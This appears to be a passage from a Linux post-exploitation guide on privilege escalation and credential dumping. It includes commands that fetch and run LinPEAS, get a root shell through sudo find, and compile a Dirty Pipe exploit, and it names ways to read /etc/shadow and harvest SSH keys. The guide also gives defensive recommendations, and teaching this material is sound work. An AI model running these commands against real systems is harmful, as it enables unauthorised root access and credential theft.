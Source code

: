 Description: Once initial access is gained, attackers often need to escalate their privileges to gain root access, which provides unrestricted control over the system.

    Common Tools and Techniques:
        LinPEAS: A script that searches for possible paths to escalate privileges on a Linux system.
        GTFOBins: A curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.
        Sudo Exploits: Identifying misconfigurations or vulnerabilities in the sudo configuration (like sudo version vulnerabilities).
        Dirty Pipe/Dirty Cow: Exploits that take advantage of Linux kernel vulnerabilities to escalate privileges.

    Command Examples:

        Using LinPEAS:

        bash

wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

Checking for Sudo Rights:

bash

sudo -l

Exploiting GTFOBins:

bash

sudo find . -exec /bin/sh \;

Using Dirty Pipe:

bash

        # Sample commands, this may vary based on the exploit version
        gcc -o exploit dirty_pipe_exploit.c
        ./exploit

    Recommendations:
        Regularly update and patch the system, especially the kernel and sudo utility.
        Implement the principle of least privilege for user accounts.
        Monitor for unusual privilege escalation attempts.

B. Credential Dumping

Description: Credential dumping on Linux involves extracting login information or sensitive data such as SSH keys from a compromised system. These credentials can then be used to access other systems.

    Common Tools and Techniques:
        Mimikatz-like Scripts for Linux: Tools like mimipenguin can be used to dump credentials from memory.
        /etc/shadow File: Reading the shadow file to obtain password hashes.
        SSH Key Extraction: Harvesting private SSH keys from users' home directories.
